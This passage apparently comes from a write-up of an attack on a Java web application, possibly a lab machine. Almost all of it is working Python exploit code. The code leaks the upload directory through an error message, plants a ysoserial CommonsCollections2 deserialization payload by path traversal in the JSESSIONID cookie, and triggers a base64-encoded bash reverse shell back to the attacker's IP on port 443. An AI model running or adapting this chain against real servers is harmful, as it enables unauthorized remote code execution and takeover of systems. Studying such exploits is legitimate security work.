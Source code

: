 1.Generate the deserialization payload

{% raw %}
```python
# Generate deserialization payload
def gen_payload(cmd:str="") -> None:
    '''
    Generates a bash-reverse-shell payload using ysoserial.jar
    '''
    if cmd == "":
        rev = b64encode(f"bash -i >& /dev/tcp/{get_ip()}/443 0>&1".encode()).decode()
        cmd = f"bash -c {{echo,{rev}}}|{{base64,-d}}|{{bash,-i}}"
    system(f'java -jar /opt/ysoserial.jar CommonsCollections2 "{cmd}" > payload.session 2>/dev/null')
```
{% endraw %}

2.&3.Upload and trigger the exploit

```python
# Upload file & trigger payload
def trigger(path:str, cmd:str="") -> None:
    '''
    Uploads specified file and triggers payload
    '''
    fname = ''.join(choice(ascii_letters) for i in range(8))
    gen_payload(cmd)
    location = f'../../../../..{path}/{fname}'
    print(f"[*] Accessing payload: {location}")
    cookie = {'JSESSIONID':location}
    [requests.post(f"{url}/upload.jsp?email=chronos", cookies=cookie, files={"image":(f"{fname}.session", open("payload.session","rb"))}, proxies=proxies) for x in range(2)]
```

Additionally, we also have a function that leaks the upload-path:

```python
# Trigger exception to leak file-location
def get_location() -> str:
    ''' 
    Upload file with empty name to leak directory
    '''
    r = requests.post(f"{url}/upload.jsp?email=chronos",files={"image" : ("", "bla")}, proxies=proxies)
    return findall(r"FileNotFoundException: (.*?) ",r.text)[0]
```

All the functions come together in the main-function:

```python
if __name__ == "__main__":
    # 1.) Leak upload-path by uploading image
    leaked_path = get_location()
    print(f"[+] Upload path leaked: {leaked_path}!")
    # 2.) Upload deserialization payload
    trigger(leaked_path)
    remove("payload.session") # cleanup
```
